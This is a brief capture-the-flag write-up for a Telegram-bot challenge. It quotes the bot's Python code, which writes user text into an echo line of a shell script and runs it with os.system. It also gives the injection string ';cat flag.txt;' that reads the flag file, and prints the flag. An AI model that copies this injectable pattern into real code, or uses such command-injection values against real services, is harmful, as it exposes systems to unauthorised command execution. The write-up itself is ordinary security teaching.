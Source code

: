 # BroBot

We have to extract the flag fom a Telegram Bot in this challenge.  
Start with some info about the bot.

```txt
/about
```

```txt
CTF - https://ctf.csivit.com/
Our Team - https://ctftime.org/team/77170/
Homepage - https://csivit.com/
Contribute - https://github.com/alias-rahil/speakingbot.git/
CTF Support - https://discord.com/invite/9wHPB2B/
BoT Support - @alias_rahil
```

We have only command `/text2voice`.
We have link to the source of the bot. We can see that it writes our text as arg for `echo` in a shell script.
Then pipes the script's output to `espeak` to get the sound.  

We can inject shell commands on our text, and we use it to get flag.

```py
fs = open(f"/home/ctf/{update.message.from_user.id}", "w")
    fs.write(f"echo '{text}'")
    fs.close()
    os.system(
        f"su ctf -c 'sh /home/ctf/{update.message.from_user.id} | espeak -w /home/ctf/{update.message.from_user.id}.wav --stdin'"
)
```

```txt
';cat flag.txt;'
```

The flag is

```txt
csictf{ai_will_take_over_the_world}
```
